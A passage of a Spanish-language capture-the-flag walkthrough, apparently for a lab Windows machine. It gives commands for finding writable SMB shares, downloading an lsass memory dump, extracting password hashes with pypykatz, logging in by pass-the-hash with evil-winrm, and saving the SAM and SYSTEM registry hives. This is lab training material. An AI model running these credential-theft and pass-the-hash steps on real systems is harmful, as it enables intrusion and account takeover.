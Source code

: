 - Para buscar archivos de lectura que tengamos para cualquier usuario:

```bash
$ cd /mnt 
$ find . | sed 's/.\///' | while read line; do echo -e "\n--- $line ---"; smbcacls '\\10.10.10.50\CarpetaCompartida' $line -N | grep Everyone | grep -i FULL; done  
```

---

7. En una carpeta encontramos copias de seguridad de algunos archivos del sistema, entre ellos encontramos un archivo comprimido sospechoso llamado *lsass.zip*...


8. Nos lo descargamos a nuestra máquina para poder analizarlo:

```bash
$ smbmap -H 10.10.10.50 -u 'audit2020' -p 'Contraseña123' --download forensic/memory_analysis/lsass.zip
```

9. Cuando descomprimimos el archivo hay un archivo llamado *lsass.DMP*, vamos a ver qué tiene con *pypykatz*:

```bash
$ pypykatz lsa minidump lsass.DMP
...
```

10. Una vez obtenidos los usuarios y hashes de las contraseñas podemos usarlos para poder autenticarnos usando "pass the hash" con *evil-winrm*:

```bash
$ evil-winrm -i 10.10.10.50 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
...

WINRM (pwn3d!)
...

PS C:\Users\svc_backup> whoami /priv
...
PRIVILEGES INFORMATION
----------------------
...
```

- Maravilloso, obtenemos las credenciales de un usuario con permisos administrativos y entramos en el equipo a través de WinRM


#### EXTRAYENDO USUARIOS LOCALES:

1. Vamos a seguir extrayendo información con *Evil-WinRM*:

```shell
Evil-WinRM PS C:\Users\svc_backup\Desktop> reg save HKLM\system system
The operation completed successfully.
...
Evil-WinRM PS C:\Users\svc_backup\Desktop> reg save HKLM\sam sam
The operation completed successfully.
...
Evil-WinRM PS C:\Users\svc_backup\Desktop> download system
Info: Downloading system to ./system
Info: Download successful!
...
Evil-WinRM PS C:\Users\svc_backup\Desktop> download sam
Info: Downloading system to ./sam
Info: Download successful!
...
```
